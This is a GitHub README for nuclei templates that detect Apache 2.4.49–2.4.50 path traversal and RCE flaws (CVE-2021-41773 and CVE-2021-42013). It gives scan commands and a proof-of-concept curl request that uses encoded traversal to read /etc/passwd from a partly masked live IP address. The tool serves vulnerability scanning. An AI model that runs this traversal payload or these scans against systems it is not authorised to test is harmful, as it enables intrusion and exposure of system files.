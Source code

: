 # Scan FOR APACHE versions "ZERO-DAY" 

```Apache Version 2.4.49 and 2.4.50 ``` 


```(CVE-2021-41773) and (CVE-2021-42013)```


## How to use : 

You Will need nuclei ! 

https://github.com/projectdiscovery/nuclei


Check local nuclei install and verify template 

```nuclei  -t apache-vulnerable-versions.yaml -vv ```

and 

```nuclei -t apache-path-traversal-rce-v2.yaml -vv ```

You should see 

```[apache-vulnerable-versions] Vulnerable Apache Versions (2.4.49-2.4.50) (@psibot) [high] ```

and 

```[apache-path-traversal-passwd] Apache Path Traversal - /etc/passwd Exposure (@psibot) [critical]```

To scan target : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -u https://*.*.*.*:port ``` 

To scan targets in a file : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -l hosts.txt``` 


## Info about Nuclei templates 

```apache-vulnerable-versions.yaml``` - Detects version of Apache and will output HIGH if vulnerible. 

![apache-vulnerable-versions.yaml](https://imgur.com/WTDHjtO.png)


```apache-path-traversal-rce-v2.yaml``` - Will run a exploit and show the path vulnerible. Will output CRITICAL if  vulnerible.

![apache-path-traversal-rce-v2.yaml](https://imgur.com/Nrg7vER.png)

POC : 

```curl -s  -k  https://135.*.120.*:8443/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd ```

![POC](https://imgur.com/ijInybr.png)